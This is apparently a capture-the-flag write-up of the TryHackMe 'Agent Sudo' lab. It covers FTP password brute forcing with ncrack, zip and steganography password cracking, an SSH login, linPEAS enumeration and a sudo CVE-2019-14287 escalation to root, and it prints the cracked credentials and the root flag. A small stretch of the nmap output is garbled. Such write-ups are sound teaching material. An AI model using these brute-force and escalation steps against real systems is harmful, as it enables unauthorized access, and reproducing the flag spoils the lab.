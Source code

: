# Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Resolution

### 1. Enumerate
Let's start enumerating the machine using nmap:
```
Nmap scan report for 10.10.130.231
Host is up (0.081s latency).
Not shown: 997 clFrom,<br>
Agent Rosed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Interesting, we have a web server, an FTP server, and an SSH agent.\
Navigating to the web page, we get the following message
> Dear agents,
>
> Use your own codename as user-agent to access the site.
>
> From,\
> Agent R

The message mentions the `User-Agent` http header. There should be a particular codename that will give us access to more pages in the web app.
Back to the hint in the room description, `C` is the actual user-agent that should be used. We can use many tools to edit the user-agent header; a browser plugin, burpsuite, curl, ...

Once the request made, we get redirected to `/agent_C_attention.php`:
> Attention chris,
>
> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
>
> From,\
> Agent R

Our agent's name is Chris.

### 2. Hash-cracking and brute force

Chris' password is weak as agent J said, so it's most likely that we would be able to crack it using a standard wordlist attack on the FTP server.
We can use different tools to do so, here is the command snippet using `ncrack` alongside the `rockyou` wordlist (username.txt contains one entry which is chris):
```
$ ncrack -U username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.130.231 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2024-02-15 19:13 UTC
Stats: 0:00:59 elapsed; 0 services completed (1 total)
Rate: 8.70; Found: 1; About 0.00% done
(press 'p' to list discovered credentials)
Discovered credentials for ftp on 10.10.130.231 21/tcp:
10.10.130.231 21/tcp ftp: 'chris' 'crystal'
caught SIGINT signal, cleaning up
```

Found the password of chris. Now we can connect to the server and get all the files out there.\
```
$ ftp chris@10.10.130.231

Connected to 10.10.130.231.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45850|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

The first interesting file should be the message to agent J:

> Dear agent J,
>
> All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
>
> From,\
> Agent C

The password of J is somewhere in on of the pictures. This technique is called steganography. We can use `binwalk` to extract (`-e`) embedded files and executable code:

```
$ binwalk cutie.png   

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

$ binwalk -e cutie.png
```

`binwalk` creates a folder with all the extracted data. The Zip archive is protected with a password which we can use `john` to brute force: First, get the hash of the password from the archive using `zip2john`, and second, launch the brute force attack:
```
$ zip2john 8702.zip > zip.hash

$ john zip.hash
```

After some time we get the password `alien`. Note that `john` used a default wordlist and that we can specify our own wordlist using `-wordlist:FILE`.
Inside the archive, we find the following file `To_agentR.txt`:

> Agent C,
>
> We need to send the picture to 'QXJlYTUx' as soon as possible!
> 
> By,\
> Agent R

Nothing interesting but let's keep the info for the moment.\
Next, a steg(steganography) password is demanded. There are many tools to do so, again, by brute force. `stegseek` is one of them.
```
$ stegseek cutie.png /usr/share/wordlists/fasttrack.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[!] error: the file format of the file "cutie.png" is not supported.

$ stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt  
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

In addition to the passphrase, `stegseek` outputs the embedded file too, in this case `message.txt`:
> Hi james,
>
> Glad you find this message. Your login password is hackerrules!
>
> Don't ask me why the password look cheesy, ask agent R who set this password for you.
>
> Your buddy,\
> chris

### 3. Capture the user flag

Now that we have access to James' credentials, we can connect to the machine via ssh.\
Once there, first thing we find is the user flag. Then, another alien picture `Alien_autospy.jpg`.

For those who have no idea about the context, me included, the hint is important. In short, I refer you to the Fox News article entitled "Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment".

### 4. Privilege escalation

We upload our `linPEAS.sh` script to the machine to enumerate privilege escalation vulnerabilities.
```
$ scp linPEAS.sh james@10.10.130.231:~/

james@10.10.130.231's password: 
linPEAS.sh                                    100%  833KB 802.5KB/s   00:01
```
Now enumeration
```
james@agent-sudo:~$ chmod +x linPEAS.sh 
james@agent-sudo:~$ ./linPEAS.sh

<...snip...>

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.21p2

<...snip...>
```

While scrolling through the output of the script, we notice that the sudo version is marked in red, so we do a little research to find out that a CVE was reported for that specific version. Check out CVE-2019-14287.

We take the Python script of the exploit from ExploitDB and run it on the target machine. Hit, got root access.

Now we get our root flag in `/root/root.txt`

> To Mr.hacker,
>
> Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 
>
> Your flag is 
> b53a02f55b57d4439e3341834d70c062
>
> By,\
> DesKel a.k.a Agent R

Mission successful,\
Agent Sudo.






